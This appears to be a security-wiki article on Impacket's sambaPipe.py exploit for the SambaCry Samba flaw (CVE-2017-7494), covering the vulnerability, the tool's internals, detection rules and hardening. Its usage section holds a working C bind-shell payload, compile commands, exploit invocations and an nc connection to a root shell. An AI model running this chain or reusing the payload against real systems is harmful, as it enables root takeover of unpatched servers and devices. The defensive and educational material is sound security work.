

title: "sambaPipe.py"
script: "examples/sambaPipe.py"
category: "Exploits"
status: "Published"
protocols:
  - SMB1
  - SMB2
  - SMB3
  - MS-SRVS
ms_specs:
  - MS-SMB
  - MS-SMB2
  - MS-SRVS
cve:
  - CVE-2017-7494
mitre_techniques:
  - T1210
  - T1068
  - T1105
auth_types:
  - anonymous
  - password
  - nt_hash
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/exploits
  - status/published
  - cve/CVE-2017-7494
  - vulnerability/sambacry
  - vulnerability/is_known_pipename
  - protocol/smb
  - target/samba
  - technique/so_library_upload
  - technique/named_pipe_abuse
  - technique/remote_code_execution
  - mitre/T1210
  - mitre/T1068
  - mitre/T1105
aliases:
  - sambaPipe
  - impacket-sambaPipe
  - sambacry


# sambaPipe.py

> **One line summary:** Exploit for CVE-2017-7494 (SambaCry), the Samba `is_known_pipename()` arbitrary shared library load vulnerability that affected Samba versions 3.5.0 through pre-patch 4.6.4 / 4.5.10 / 4.4.14 and allowed any SMB user with write access to a share (often anonymous) to upload a `.so` shared object to the share and trigger its execution as the Samba process user (usually root) by opening a named pipe whose name resolves to the absolute filesystem path of the uploaded file; the tool automates the full chain by using `NetrShareEnum` to discover writable shares, parsing the server's filesystem paths from the share enumeration response, uploading the attacker-supplied shared object, and triggering the library load via the pipe name trick, completing the Exploits category at 2 of 2 articles alongside [`goldenPac.py`](goldenPac.md). **Historical note: this vulnerability was patched in May 2017; fully-patched Samba deployments are not vulnerable, but legacy embedded devices, NAS appliances, and industrial control systems occasionally still run unpatched versions.**

| Field | Value |
|:---|:---|
| Script | `examples/sambaPipe.py` |
| Category | Exploits |
| Status | Published |
| Vulnerability | CVE-2017-7494 (SambaCry, "is_known_pipename") |
| Patch | Samba 4.6.4 / 4.5.10 / 4.4.14 (May 24, 2017) |
| Primary protocols | SMB1, SMB2, SMB3, MS-SRVS |
| Primary Microsoft specifications | `[MS-SMB]`, `[MS-SMB2]`, `[MS-SRVS]` |
| MITRE ATT&CK techniques | T1210 Exploitation of Remote Services, T1068 Exploitation for Privilege Escalation, T1105 Ingress Tool Transfer |
| Authentication types supported | Anonymous, password, NT hash, Kerberos ccache |
| First appearance in Impacket | Impacket 0.9.16 (shortly after vulnerability disclosure) |
| Original contributor to Impacket | Alberto Solino (`@agsolino`) |


## Prerequisites

This article builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`smbclient.py`](../05_smb_tools/smbclient.md) for SMB fundamentals: tree connects, file upload, share enumeration. SambaPipe uses the same underlying `impacket.smbconnection` module and the same operations with a specific trigger appended.
- [`goldenPac.py`](goldenPac.md) for the companion article in the Exploits category. Both are historical exploits for specific CVEs with patches available for years.


## What it does

`sambaPipe.py` is a single-shot exploit for CVE-2017-7494. Given a compiled `.so` shared object, a target, and credentials (or anonymous access), the tool:

1. Establishes an SMB connection to the target (SMB1 or SMB2/3 depending on what the server supports).
2. Calls `NetrShareEnum` with info level 2 to list shares on the target. Info level 2 returns the **absolute filesystem path** of each share on the server, which is the critical piece of information the exploit needs.
3. Identifies which shares are writable.
4. For each writable share, uploads the supplied `.so` file to a random filename.
5. Attempts to trigger the exploit by opening a named pipe whose name is `/full/server/path/to/uploaded.so`. On a vulnerable Samba, `is_known_pipename` treats this pipe name as a path to load with `dlopen()`, which loads and executes the shared object in the Samba process.
6. On successful trigger, the shared object's `samba_init_module` function runs as the Samba service user (typically root). Whatever the shared object is designed to do, it does.

The operator supplies the shared object. Common payloads are:

- A bind shell (opens a listening port for the attacker to connect to).
- A reverse shell (connects out to a host and port supplied by the attacker).
- A credential harvester.
- Any other Linux native code compiled as a shared object that is position independent.

The tool does not include any payload. It is purely the delivery and trigger mechanism; payload selection and compilation are separate steps.

Tool modes:

- **Standard:** supply credentials, the tool finds a writable share, uploads, and triggers.
- **Anonymous:** empty username/password. Works against shares configured for guest access (common on misconfigured NAS appliances and IoT devices).

The vulnerability matters today almost exclusively in the context of:

- **Legacy embedded devices** (NAS appliances, printers, IoT devices) running old, unmaintained firmware.
- **Industrial control systems** where patching has historically been neglected.
- **Ancient Linux servers** that have not been updated since before May 2017.
- **CTF challenges and labs** (SambaCry is a popular teaching example for SMB-based RCE).

For typical modern Linux server deployments, the vulnerability is patched. Checking via `smbd --version` on the target (if reachable) identifies the Samba version.


## Why it exists

On May 24, 2017, Samba disclosed CVE-2017-7494 with a patch. The vulnerability was internally rated critical because of its combination of low attack complexity, no authentication required in some configurations, and root level code execution impact. Within days, proof of concept exploits appeared (including the Metasploit `is_known_pipename` module and several standalone Python implementations).

The popular name "SambaCry" deliberately echoes "WannaCry", the devastating SMB worm based on EternalBlue (MS17-010) that had hit Windows networks two weeks earlier. Journalists widely speculated that SambaCry would be "WannaCry for Linux" and cause similar mass compromise. In reality, the impact was much smaller because:

- Modern Linux distributions pushed the Samba patch quickly; most internet facing Linux servers with SMB exposure were updated within days.
- The exploit requires the attacker to know the absolute filesystem path of a writable share, which is obtainable via `NetrShareEnum` level 2 but is not always available (some configurations restrict this).
- Samba is much less ubiquitous on Linux than SMB is on Windows.

Nevertheless, the exploit propagated where it could: unpatched NAS devices, embedded systems, and neglected servers. Some ransomware and cryptocurrency miners used it for Linux targets in 2017-2018. CISA added CVE-2017-7494 to its Known Exploited Vulnerabilities catalog in 2023, indicating continued opportunistic exploitation against legacy systems.

Alberto Solino added `sambaPipe.py` to Impacket shortly after the disclosure, providing a pure-Python alternative to Metasploit's Ruby module and the various standalone Python exploits. The Impacket version has the usual advantages (consistency with other Impacket SMB clients, clean authentication handling, proper SMB2/3 support) and shares the `impacket.smbconnection` codebase with every other SMB tool in the library.

The tool remains in Impacket and in this wiki for the same reasons `goldenPac.py` does: historical education, pattern recognition for related research, and occasional operational relevance against legacy systems. Both exploits are textbook examples that illustrate how specific protocol flaws translate into complete compromise, which is useful context for understanding newer vulnerabilities.


## The vulnerability theory

This section covers what made `is_known_pipename` vulnerable, enough to understand the exploit without having to read the Samba source code.

### Samba and named pipes

Samba implements the SMB protocol on Linux, including SMB's IPC (Inter Process Communication) facility. Windows uses named pipes for communication between processes and exposes many of them over SMB via the `IPC$` share. Samba implements a subset of these for compatibility with Windows clients, mostly the DCE/RPC endpoints that Windows administration tools require.

When a client opens a named pipe on Samba (via SMB's `NT_CREATE_ANDX` or `SMB2_CREATE` with the `IPC$` share or with a specific pipe name), Samba's pipe handling code checks whether the requested pipe name is one of the known pipes. Known pipes include things like `\PIPE\srvsvc` (server service RPC), `\PIPE\netlogon`, `\PIPE\samr`, etc.

The function that performs this check is `is_known_pipename()` in Samba's source. Before the patch, its behavior (simplified) was:

```c
bool is_known_pipename(const char *pipename, ...) {
    // Check against a list of hardcoded known pipes
    if (matches_known_pipe(pipename)) {
        return true;
    }

    // Fall through: attempt to dynamically load a module
    // matching the pipe name
    handle = dlopen(pipename, RTLD_NOW);
    if (handle) {
        // Call samba_init_module on the loaded library
        ...
        return true;
    }

    return false;
}
```

The fall through logic was intended to support loadable Samba modules: administrators could install `.so` files in a specific directory, and Samba would load them on demand when matching pipes were opened. The assumption was that the pipe name would be something like `netlogon` and that Samba would construct a proper path like `/usr/lib/samba/pipe/netlogon.so` before calling `dlopen`.

The vulnerability was that **Samba passed the pipe name supplied by the client directly to `dlopen` without sanitization**. If the client sent a pipe name like `/tmp/evil.so`, Samba called `dlopen("/tmp/evil.so", RTLD_NOW)`. If the file existed at that path, `dlopen` loaded it, and `samba_init_module` (if defined in the library) executed.

### Why this is exploitable

Three pieces combine to create the exploit:

1. **Pipe names can contain arbitrary characters** including `/`. SMB does not sanitize pipe names to prevent path traversal.
2. **Samba itself runs as the user who writes to the filesystem.** If a share is writable, the Samba process can already read files it put there.
3. **`NetrShareEnum` info level 2 reveals the server-side filesystem path** of each share. An attacker who uploads `evil.so` to `\\server\pub\evil.so` via SMB can learn from `NetrShareEnum` that the server-side path of the `pub` share is `/srv/samba/pub`, so the full path to the uploaded file is `/srv/samba/pub/evil.so`.

Combining these: upload `evil.so` via SMB, discover the absolute path via `NetrShareEnum`, then open a named pipe with name `/srv/samba/pub/evil.so`. Samba's vulnerable `is_known_pipename` passes this to `dlopen`, which loads the library and executes `samba_init_module`.

### Why `NetrShareEnum` level 2 matters

`NetrShareEnum` is an MS-SRVS (Server Service Remote Protocol) RPC method. It returns information about the shares on a server. Three info levels are commonly used:

- **Level 0:** just share names.
- **Level 1:** names plus descriptions and types.
- **Level 2:** names, descriptions, types, permissions, **and the filesystem path on the server** (`shi2_path`).

Level 2 is restricted by default on Windows (requires admin privileges to call). Samba implements this differently; on many Samba configurations, an authenticated user (sometimes anonymous) can call `NetrShareEnum` at level 2 and get the filesystem paths.

This information is what makes the exploit practical. Without it, an attacker would have to guess the path (for example `/srv/samba/pub`, `/srv/shares/public`, `/tmp/smb`, etc.), which is a difficult guessing problem. With it, the path is handed to the attacker as part of the enumeration.

### The fix

Samba 4.6.4 (and backports to 4.5.10 and 4.4.14) fixed the vulnerability by:

1. Explicitly validating pipe names against a whitelist of allowed characters before any `dlopen` call.
2. Restricting the path passed to `dlopen` to a specific directory regardless of what the pipe name contains.
3. Adding a configuration option `nt pipe support = no` that disables all pipe handling when Windows client compatibility is not needed.

Samba versions after the patch are not vulnerable. The `smb.conf` mitigation `nt pipe support = no` was recommended as a temporary workaround before patching was possible; it breaks some Windows client functionality but blocks the exploit entirely.

### Why the exploit works with anonymous access

Many Samba deployments (especially on NAS devices, print servers, and shared drives configured for convenience) have at least one share with `guest ok = yes` or `public = yes`. On such configurations:

- Anonymous SMB clients can connect with empty credentials.
- Anonymous clients can often write to the guest share.
- Anonymous clients can often call `NetrShareEnum` level 2.

All three conditions together mean the full exploit chain works without any credentials. This is the worst case scenario and the reason SambaCry was considered critical.

More restrictive configurations (requiring authentication, disallowing anonymous access, restricting `NetrShareEnum`) make exploitation harder but not impossible as long as the attacker has any valid user credentials.


## How the tool works internally

1. **Argument parsing.** Target string with credentials, path to the shared object to upload, SMB authentication options.

2. **SMB connection.** Calls `impacket.smbconnection.SMBConnection` to establish SMB to the target on port 445 (or 139 if 445 is unavailable). Negotiates the highest SMB dialect the server supports (SMB1 if the target is old enough to require it; SMB2 or SMB3 if supported).

3. **Authentication.** Login with the supplied credentials. Empty username and password for anonymous. Can use NT hash via `login_with_hash`. Can use Kerberos via ccache if `-k` is specified.

4. **Share enumeration.** Binds to the MS-SRVS interface (`\PIPE\srvsvc`), calls `NetrShareEnum` with info level 2. Parses the response to extract each share's name and server-side path.

5. **Writable share identification.** For each non-IPC share, the tool tries to open a test file for writing. Successful opens indicate writability. The first writable share is used.

6. **File upload.** Generates a random 8-character filename with `.so` extension. Reads the local shared object file and uploads it to the chosen share via standard SMB write operations.

7. **Trigger.** Opens a named pipe via `SMB2_CREATE` (or `NT_CREATE_ANDX` on SMB1) with the name set to `<server-side-share-path>/<random-filename>.so`. Specifically, the pipe name is constructed as the absolute filesystem path to the uploaded file.

8. **Exploit observation.** If the server is vulnerable, the `SMB2_CREATE` returns an error (the "pipe" is not actually a pipe, so some pipe operation fails) but *before* that error occurs, `dlopen` has already loaded the library and executed its init function. The attacker observes the library's action (a new listening port, an outbound connection, etc.) rather than a shell through the exploit tool itself.

9. **Cleanup.** The tool tries to delete the uploaded `.so` file after the trigger attempt. Successful deletion depends on the share's file locking behavior; if the library is still loaded in Samba's memory, the file may not be deletable until the library is unloaded (which typically does not happen until Samba restarts).

The tool does not provide any machinery for post exploitation. Whatever the supplied shared object does is what happens. Most operators use a bind shell or reverse shell payload and handle the follow up interactively.


## Authentication options

Standard Impacket authentication pattern:

### Anonymous (guest/null session)

```bash
sambaPipe.py ''@10.0.0.50 -so ./libpoc.linux64.so
```

Empty credentials. Works against Samba configurations that allow guest access.

### Cleartext password

```bash
sambaPipe.py alice:'Password1'@10.0.0.50 -so ./libpoc.linux64.so
```

### NT hash

```bash
sambaPipe.py alice@10.0.0.50 -hashes :<nthash> -so ./libpoc.linux64.so
```

### Kerberos ccache

```bash
export KRB5CCNAME=alice.ccache
sambaPipe.py alice@10.0.0.50 -k -no-pass -so ./libpoc.linux64.so
```

Kerberos is unusual against Samba in typical deployments but supported for environments where Samba is integrated with a Kerberos KDC (common on Samba servers joined to Active Directory).

### Minimum required privileges

- Any SMB access (often anonymous) that permits:
  - Write access to at least one share.
  - Calling `NetrShareEnum` at info level 2.
- Vulnerable Samba version (3.5.0 through 4.6.4 / 4.5.10 / 4.4.14 before the patch).
- Samba running with permissions that allow `dlopen` of files in the writable share (normally yes, since Samba owns those files as the process user).

Typical deployments that meet all conditions:

- NAS appliances with guest shares (anonymous works).
- Legacy Linux servers with `[public] guest ok = yes` in `smb.conf` (anonymous works).
- Authenticated Samba servers where the compromised user has write access to any share.


## Practical usage

### Build a test shared object

The exploit delivery mechanism needs a Linux shared object with an exported `samba_init_module` function. Simplest bind shell example:

```c
// bindshell-samba.c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>
#include <stdlib.h>

int samba_init_module(void) {
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INADDR_ANY;
    addr.sin_port = htons(6699);
    bind(sock, (struct sockaddr *)&addr, sizeof(addr));
    listen(sock, 0);
    int conn = accept(sock, NULL, NULL);
    dup2(conn, 0);
    dup2(conn, 1);
    dup2(conn, 2);
    execve("/bin/sh", (char*[]){"/bin/sh", NULL}, NULL);
    return 0;
}
```

Compile as a shared object that is position independent:

```bash
gcc -c -fPIC bindshell-samba.c -o bindshell-samba.o
gcc -shared -o libpoc.linux64.so bindshell-samba.o
```

The resulting `libpoc.linux64.so` is the payload.

### Run the exploit

```bash
sambaPipe.py CORP/bob:'Password1'@10.0.0.50 -so ./libpoc.linux64.so
```

Expected output on a vulnerable target:

```text
Impacket v0.14.0
[*] Connecting to 10.0.0.50
[*] Enumerating shares...
[*] Share 'public' is writable. Server path: /srv/samba/public
[*] Uploading libpoc.linux64.so as aBc123Xy.so
[*] Triggering exploit via pipe name /srv/samba/public/aBc123Xy.so
[*] Exploit triggered (error from pipe expected, library loaded)
[*] Cleaning up uploaded file
```

At this point, the bind shell from the payload is listening on port 6699 of the target. Connect to it:

```bash
nc 10.0.0.50 6699
# Root shell on the Samba server
```

### Anonymous exploitation

```bash
sambaPipe.py ''@10.0.0.50 -so ./libpoc.linux64.so
```

Same flow without credentials. Works on configurations with guest write access.

### Version detection before exploitation

Before running the exploit, verify the target is likely vulnerable:

```bash
# SMB banner often reveals Samba version
smbclient -L //10.0.0.50 -U '' -N 2>&1 | grep -i samba

# nmap script
nmap -p 445 --script smb-vuln-cve-2017-7494 10.0.0.50
```

The nmap script checks for the vulnerability directly. A clean version check avoids wasting time on patched systems.

### Key flags

| Flag | Meaning |
|:---|:---|
| `target` (positional) | `[[domain/]username[:password]@]<target>` |
| `-so <path>` | Path to the local shared object to upload. |
| `-hashes <LM:NT>` | NT hash for authentication. |
| `-k`, `-no-pass`, `-aesKey` | Kerberos options. |
| `-target-ip <ip>` | Explicit target IP. |
| `-port <port>` | SMB port (default 445). |
| `-debug`, `-ts` | Verbose/timestamp logging. |

Small argument surface. Most complexity is in payload construction, not tool configuration.


## What it looks like on the wire

Standard SMB traffic plus one characteristic anomaly.

### SMB session setup

- TCP to port 445.
- SMB negotiate (or SMB2 negotiate).
- Session setup (with supplied credentials or null).
- Tree connect to the target share and `IPC$`.

### NetrShareEnum call

- DCE/RPC bind to MS-SRVS (`\PIPE\srvsvc`).
- `NetrShareEnum` call with level 2.
- Response contains share names and `shi2_path` fields.

### File upload

- `SMB2_CREATE` (or `NT_CREATE_ANDX`) for the target filename.
- `SMB2_WRITE` (or `SMB_COM_WRITE`) calls transferring the `.so` file contents.
- `SMB2_CLOSE` when upload completes.

### The trigger: the distinctive signature

- `SMB2_CREATE` with a `Name` field containing `/srv/samba/public/aBc123Xy.so` (or similar full filesystem path).

**This is the unmistakable signal.** Normal SMB traffic never contains filesystem paths as pipe names. A `SMB2_CREATE` with a path-like name (forward slashes, absolute path structure, `.so` extension) is essentially diagnostic of this exploit.

### Wireshark filters

```text
smb2                                            # all SMB2
smb2.filename contains "/" and smb2.filename contains ".so"
                                                # Path like name in SMB2
dcerpc.if_id == 4b324fc8-1670-01d3-1278-5a47bf6ee188   # MS-SRVS interface
```

The second filter is highly specific: any SMB2 create with a filename containing both `/` and `.so` is almost certainly this exploit. Modern IDS/IPS rules for SambaCry trigger on this pattern.


## What it looks like in logs

### Samba logs

If the Samba server has verbose logging enabled (typically not the default), the exploit leaves traces:

- Authentication event for the SMB session (or anonymous access).
- File creation event for the `.so` upload.
- The pipe open attempt with the path like name (in `log level = 2` or higher).

Default Samba logging is less verbose; a patched Samba rejects the path like pipe name without extensive logging.

### Linux system logs

If the exploit succeeds and the payload opens a listening port or spawns a process:

- `auditd` rules on `execve` capture any processes spawned by the loaded library.
- `netstat` / `ss` show the new listening port.
- If the payload opens a reverse shell, the outbound connection is logged if iptables or firewall logging captures it.

### Starter Sigma rules

```yaml
title: SambaCry Exploit Attempt
logsource:
  product: linux
  service: syslog
detection:
  selection:
    # Look for Samba messages indicating the exploit attempt pattern
    program: 'smbd'
    message|contains:
      - 'is_known_pipename'
      - '.so'
  condition: selection
level: critical
```

Matches Samba log messages referencing `.so` files in pipe name handling. Works when Samba is configured for sufficient log verbosity.

```yaml
title: Suspicious SMB Named Pipe with Filesystem Path
logsource:
  category: network
detection:
  selection:
    protocol: 'smb2'
    filename|contains: '/'
    filename|endswith: '.so'
  condition: selection
level: critical
```

Detection at the network level. Needs an IDS capable of deep packet inspection. Any match is essentially diagnostic of SambaCry or a very close variant.

```yaml
title: NetrShareEnum Level 2 from Untrusted Source
logsource:
  product: linux
  service: auditd
detection:
  selection:
    # Combined with network visibility showing the DCE/RPC method number
    event: 'samba_share_enum_level_2'
  filter_internal:
    src_ip: '10.0.0.0/8'
  condition: selection and not filter_internal
level: medium
```

Detects the reconnaissance step. The level 2 call reveals filesystem paths on the server and is a prerequisite for most SambaCry attempts. Tuning for legitimate internal clients is essential.


## Detection and defense

### Detection opportunities

**The distinctive `SMB2_CREATE` with a filesystem path as the pipe name** is the gold standard network signal. Snort, Suricata, and Zeek all have rules for this pattern; they should be deployed at perimeters and internal segments where Samba servers exist.

**New listening ports or outbound connections from the Samba process** indicate successful exploitation. EDR or host based monitoring that tracks process behavior catches the activity that follows exploitation.

**File upload to a Samba share followed immediately by anomalous Samba behavior.** Sequencing a `.so` upload with a pipe open attempt in a short time window is diagnostic.

**Anonymous or guest SMB session followed by `NetrShareEnum` level 2 calls.** A legitimate client rarely does this; it is the precursor to exploitation.

### Preventive controls

**Patch.** Samba 4.6.4 and later, 4.5.10 and later, or 4.4.14 and later are not vulnerable. Updating to any currently supported Samba version eliminates the vulnerability entirely. Modern Linux distributions shipped patched versions years ago; the remaining risk is in systems that have not been updated since 2017.

**Samba configuration hardening** (for systems that cannot be patched immediately):

- `nt pipe support = no` in `smb.conf`'s `[global]` section. Disables named pipe support entirely. Breaks some Windows client functionality (certain admin operations) but prevents the exploit.
- Mount the filesystem hosting writable Samba shares with the `noexec` mount option. Prevents `dlopen` from loading libraries from that filesystem regardless of any Samba bug.
- Restrict `NetrShareEnum` level 2 via Samba configuration. Denies attackers the filesystem path information on the server that they need for reliable exploitation.

**Remove guest/anonymous write access.** `guest ok = no` on all shares. Requires authentication for any SMB access, which raises the bar for exploitation (attacker needs at least one valid credential).

**Network segmentation.** Samba servers should not accept SMB connections from untrusted networks. Internal only access with perimeter firewall rules blocking port 445 inbound is the most common deployment.

**Isolation at the filesystem level.** Running Samba in a container or chroot with a minimal filesystem limits what code loaded via `dlopen` can access and do. Does not prevent exploitation but limits the impact.

**Decommission legacy systems.** Any Samba installation from 2017 or earlier that has not been updated represents systemic risk, not just SambaCry vulnerability. Such systems typically have many other unpatched issues and should be retired or isolated.


## Related tools and attack chains

`sambaPipe.py` completes the Exploits category at 2 of 2 articles alongside [`goldenPac.py`](goldenPac.md).

### Related Impacket tools

- [`smbclient.py`](../05_smb_tools/smbclient.md) handles the underlying SMB operations that sambaPipe uses (share enumeration, file upload). sambaPipe is in a sense smbclient plus one specific trigger.
- [`goldenPac.py`](goldenPac.md) is the companion exploit article. Both are historical exploits that run in a single step against specific CVEs; both illustrate patterns that inform understanding of newer research.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) is a common followup tool once root access on a Samba server is achieved. If the Samba server is part of a Windows domain (integrated with AD), secretsdump can extract credentials from the local SAM and any cached credentials.

### External alternatives

- **Metasploit `exploit/linux/samba/is_known_pipename`** at `https://github.com/rapid7/metasploit-framework`. The canonical exploit module. Includes numerous payload options and automatic post-exploitation handling.
- **opsxcq/exploit-CVE-2017-7494** at `https://github.com/opsxcq/exploit-CVE-2017-7494`. Standalone Python exploit with a vulnerable Docker container for testing.
- **Joxean Koret's cve_2017_7494.py**. Early standalone Python implementation shortly after disclosure.
- **nmap `smb-vuln-cve-2017-7494` script**. Detection without exploitation. Useful for reconnaissance without actually triggering the vulnerability.

### The historical attack chain



### Why this matters for modern research

SambaCry is the Linux counterpart to MS14-068 in a specific sense: both are historical exploits for a single vulnerability that are patched everywhere in supported systems but remain educational and occasionally operationally relevant in legacy contexts. Both are textbook examples for security training.

The specific vulnerability class (untrusted input passed to a library loading function) appears in many contexts beyond Samba. Any code that takes a string supplied by the user and uses it as a path in `dlopen`, `LoadLibrary`, or equivalent is potentially vulnerable to the same pattern. Understanding SambaCry primes researchers to recognize this pattern in other software.

The NAS and embedded device angle remains relevant. Many appliances ship with ancient Samba versions and never receive updates. Shodan queries for specific Samba version banners still find large populations of vulnerable devices years after the patch. Operators performing assessments against embedded environments should include SambaCry checks in their methodology; it is one of a handful of old vulnerabilities that continue to pay dividends in the embedded space.


## Further reading

- **CVE-2017-7494** entry at the NIST NVD.
- **Samba Security Advisory** at `https://www.samba.org/samba/history/samba-4.6.4.html`. Samba's own announcement of the vulnerability and fix.
- **Metasploit `is_known_pipename` module source** at `https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/samba/is_known_pipename.rb`. Reference implementation with detailed comments.
- **AttackerKB entry for CVE-2017-7494** at `https://attackerkb.com/topics/1qZ2S85EjE/cve-2017-7494`. Community analysis of exploitability and real-world impact.
- **CISA Known Exploited Vulnerabilities Catalog** at `https://www.cisa.gov/known-exploited-vulnerabilities-catalog`. Confirms ongoing opportunistic exploitation against legacy systems.
- **`[MS-SRVS]`: Server Service Remote Protocol** at `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/`. The `NetrShareEnum` specification that the exploit relies on for path enumeration.
- **Samba source code** for the `is_known_pipename` and related functions after the patch. Reading the fix concretely shows what validation was added.
- **MITRE ATT&CK T1210** at `https://attack.mitre.org/techniques/T1210/`. Exploitation of Remote Services technique.

If you want to internalize the exploit (acknowledging its historical status), the opsxcq repository includes a Docker container with a vulnerable Samba installation specifically for testing. Run the container in an isolated lab network, connect from an attacker host with `sambaPipe.py`, supply a bind shell payload, and observe the full chain. The comparison of before and after patching (the vulnerable container versus a modern Samba container) makes concrete both the exploit mechanism and the fix. Reading the Samba source code diff for the patch (a short `git diff` between Samba 4.6.3 and 4.6.4) completes the picture: the fix is surprisingly small relative to the impact, which is itself an instructive pattern (many critical vulnerabilities turn on similarly small validation gaps). After this exercise, recognizing the "user input used as a path in a library loading function" pattern in other software becomes second nature, and the tool has served its primary educational purpose.
